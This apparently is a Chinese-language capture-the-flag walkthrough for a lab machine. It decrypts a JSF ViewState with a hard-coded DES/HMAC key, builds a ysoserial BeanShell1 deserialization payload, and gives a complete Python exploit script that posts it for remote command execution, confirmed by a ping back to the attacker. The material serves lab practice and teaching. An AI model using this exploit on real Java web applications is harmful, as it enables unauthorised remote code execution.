 ![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeV9mSjAJ3utvoPJCe8WJMib9bwVkO7YQib0Z8Sn9Kxpm2FdiccvibjFWkFA/640?wx_fmt=png)截屏 2021-12-18 下午 8.09.27

这是加密的字节流，我们需要通过解密来获取其中的信息。SHA1 的长度通常为 20 字节，很可能附加到首位或末尾。经过测试 HMAC 存储在最后 20 字节中

```
from base64 import b64decodefrom urllib.parse import unquote_plus as urldecodefrom hashlib import sha1import hmacvs = 'wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE%3D'vs_urldecode = urldecode(vs)vs_bs64decode = b64decode(vs_urldecode)mac = vs_bs64decode[-20:]enc = vs_bs64decode[:-20]enc_hmac = hmac.new(b'JsF9876-', enc, sha1).digest()print(mac)print(enc_hmac)
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeT12MREmrwFcE58dvLUx01LaJ2oL2yTCjj3hrSaz0LNHovfIWZ068Sw/640?wx_fmt=png)目前已知加密方式、加密位置以及密钥，接下来就可以解密这串值

```
from base64 import b64decodefrom urllib.parse import unquote_plus as urldecodefrom Crypto.Cipher import DESvs = 'wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE%3D'vs_urldecode = urldecode(vs)vs_bs64decode = b64decode(vs_urldecode)enc = vs_bs64decode[:-20]d = DES.new(b'JsF9876-', DES.MODE_ECB)print(d.decrypt(enc))
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aevVKT1DY3AG8950TiaibLlg6rhXsG9ic5nRPxODI7smfMMAwiaBF9AXtUew/640?wx_fmt=png)经过解密后出现字符串说明解密确实是正确的

使用 ysoserial 来生成 ping 命令的 payload

```
java -jar ysoserial-0.0.6-SNAPSHOT-BETA-all.jar BeanShell1 'ping 10.10.14.14' > text
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aemFw0pdCVuvXSxlC98uNcpiaPR249fk0eUlzXmG2B5ENxNs0WAFqBdAA/640?wx_fmt=png)生成成功，但是我需要将其放入 python 脚本当中进行调用

> 安装模块 pip install pycryptodome

```
import requestsimport subprocessimport sysfrom base64 import b64encodefrom Crypto.Cipher import DESfrom Crypto.Hash import SHA, HMACfrom os import devnullfrom urllib.parse import quote_plus as urlencodewith open(devnull, 'w') as null:    payload = subprocess.check_output(['java', '-jar', '/root/hackthebox/Machines/Arkham/ysoserial-0.0.6-SNAPSHOT-BETA-all.jar', sys.argv[1], sys.argv[2]], stderr=null)pad = (8 - (len(payload) % 8)) % 8padded = payload + (chr(pad)*pad).encode()d = DES.new(b'JsF9876-', DES.MODE_ECB)enc_payload = d.encrypt(padded)sig = HMAC.new(b'JsF9876-', enc_payload, SHA).digest()viewstate = b64encode(enc_payload + sig)sess = requests.session()sess.get('http://10.10.10.130:8080/userSubscribe.faces')resp = sess.post('http://10.10.10.130:8080/userSubscribe.faces',        data = {'j_id_jsp_1623871077_1%3Aemail': 'd',                'j_id_jsp_1623871077_1%3Asubmit': 'SIGN+UP',                'j_id_jsp_1623871077_1_SUBMIT': '1',                'javax.faces.ViewState': viewstate})
```

启动本地监听

```
tcpdump -i tun0 icmp<br style="box-sizing: border-box;">
```

使用脚本执行 ping 命令

```
python3 exploit.py BeanShell1 'ping 10.10.14.14'
```
